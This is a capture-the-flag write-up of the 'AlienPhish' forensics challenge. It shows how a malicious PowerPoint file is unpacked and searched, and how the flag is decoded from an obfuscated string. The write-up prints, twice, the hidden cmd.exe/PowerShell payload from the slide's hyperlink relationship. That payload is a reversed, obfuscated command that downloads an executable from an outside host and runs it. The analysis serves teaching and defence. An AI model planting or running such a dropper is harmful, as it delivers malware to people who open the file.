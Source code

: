 ```yaml
---
title: "HTB Cyber Apocalypse CTF - AlienPhish"
# author:
#   name: 0xKirito
#   link: https://github.com/0xKirito
date: 2021-04-27T05:17:41+05:30
categories: [Writeups, CTF]
tags: [HTB, CTF, Forensics, Maldocs, Malware Analysis]
render_with_liquid: false
---
```


## AlienPhish - PowerPoint File Forensics

- I came up with this cool little trick on the spot and decided to use VS Code to just search through all the files at once.
- Extract the PowerPoint file with `unzip file.pptx` and then open the entire directory in VS Code (`code .` if you have it set up that way in terminal/env) for searching through all the files quickly and easily. I use VS Code. You can use any other code editor you use/like that can search through all the files at once (or you could use `grep` but I'd rather go through everything with a code editor when doing any kind of file forensics).
- Search for keywords like `vba`, `cmd`, `exe`, etc.
- Found what I wanted immediately in `slide1.xml.rels` file with `cmd` and `exe` keyword search.
- That file had a malicious `cmd` payload in `Target` attribute:

```
<Relationship Id="rId2" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/hyperlink" Target="cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22" TargetMode="External"/>
```

```
"cmd.exe%20/V:ON/C%22set%20yM=%22o$%20eliftuo-%20exe.x/neila.htraeyortsed/:ptth%20rwi%20;'exe.99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q'%20+%20pmet:vne$%20=%20o$%22%20c-%20llehsrewop&amp;&amp;for%20/L%20%25X%20in%20(122;-1;0)do%20set%20kCX=!kCX!!yM:~%25X,1!&amp;&amp;if%20%25X%20leq%200%20call%20%25kCX:*kCX!=%25%22"
```

- We can tell from the URL `exe.x/neila.htraeyortsed/:ptth` that some part of the payload is reversed.
- But the file name that this powershell command is downloading looks like an encoded string.
- `99zP_MHMyNGNt9FM391ZOlGSzFDSwtnQUh0Q` looked like an encoded value so went to [CyberChef](https://gchq.github.io/CyberChef/), reversed and decoded to Base64 and got the flag.
- Encoded Value <span class="fat-arrow">=></span> Reverse <span class="fat-arrow">=></span> `Q0hUQntwSDFzSGlOZ193MF9tNGNyMHM_Pz99` <span class="fat-arrow">=></span> Base64 Decode <span class="fat-arrow">=></span> Flag <span class="fat-arrow">=></span> `CHTB{pH1sHiNg_w0_m4cr0s>??}`
- But that flag was not accepted and showed incorrect. Probably some decoding error so I went back to [CyberChef](https://gchq.github.io/CyberChef/) and in Base64 Decoding, there was an option for `URL Safe` decoding which gave <span class="fat-arrow">=></span> `CHTB{pH1sHiNg_w0_m4cr0s???}`. This was one accepted.

